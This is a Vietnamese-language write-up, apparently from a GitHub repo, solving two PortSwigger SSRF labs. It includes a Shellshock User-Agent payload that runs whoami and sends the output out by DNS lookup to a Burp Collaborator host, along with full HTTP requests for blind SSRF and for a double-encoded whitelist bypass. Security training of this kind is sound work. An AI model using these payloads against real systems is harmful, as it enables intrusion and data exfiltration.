


## SSRF Expert Lab

### Lab: Blind SSRF with Shellshock exploitation

- Sử dụng `Burp Collaborator` + `shellshock`

    ```
    () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
    ```

- Brute dải ip `192.168.0.X/24`, poll về `Burp Collaborator`

    - PoC

        ```
        GET /product?productId=1 HTTP/2
        Host: 0a4100a803d9d75d80374e1200ee002d.web-security-academy.net
        Cookie: session=7GkfQCYn4FAuKMTR2yNy7OLkOaopCQQU
        Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
        Sec-Ch-Ua-Mobile: ?0
        Sec-Ch-Ua-Platform: "Windows"
        Accept-Language: en-US,en;q=0.9
        Upgrade-Insecure-Requests: 1
        User-Agent: () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Referer: http://192.168.0.1:8080/
        Accept-Encoding: gzip, deflate, br
        Priority: u=0, i
        ```


### Lab: SSRF with whitelist-based input filter

- Thử payload SSRF cơ bản ở phần check stockapi nhưng bị chặn

    ```text
    External stock check host must be stock.weliketoshop.net
    ```

    - Thử bypass bằng `#`, encode 2 lần để thành `%2523`


- PoC
    ```
    POST /product/stock HTTP/2
    Host: 0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Cookie: session=koNwfKAKsd1Ys3UrpUjZf0WdTR3LeEtS
    Content-Length: 54
    Sec-Ch-Ua-Platform: "Windows"
    Accept-Language: en-US,en;q=0.9
    Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
    Content-Type: application/x-www-form-urlencoded
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: */*
    Origin: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net/product?productId=1
    Accept-Encoding: gzip, deflate, br
    Priority: u=1, i

    stockApi=http://localhost%2523@stock.weliketoshop.net/
    ```

    

    - Xóa carlos

    